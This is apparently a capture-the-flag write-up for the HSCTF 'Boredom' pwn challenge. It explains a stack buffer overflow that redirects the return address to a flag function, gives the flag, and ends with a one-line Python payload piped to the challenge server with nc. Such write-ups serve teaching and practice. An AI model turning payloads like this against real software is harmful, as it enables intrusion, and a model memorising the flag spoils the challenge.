 # Boredom

## Problem

```
Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

    check your offset, the offset is slightly different on the remote server
    the addresses are still the same

Author: PMP
```

## Solution

**Note:** *Payload script can be found under `exploit.py` in `scripts/boredom` folder.*


Simple buffer overflow, simply overwrite the return address with the address of `flag` function.

![](images/boredom_final.PNG)

Flag: `flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}`

&nbsp;
---

**NTS:** note from PMP (challenge author): 

Common mistakes included:
- Using the wrong offset.
- Forgetting that addresses are 8 bytes long on 64-bit architectures, and thus need to be padded with null bytes to reach 8 bytes.

Alternate method (python on Terminal):
```
python -c 'print("A" * 208 + "\xd5\x11\x40\x00\x00\x00\x00\x00")' | nc pwn.hsctf.com 5002
```
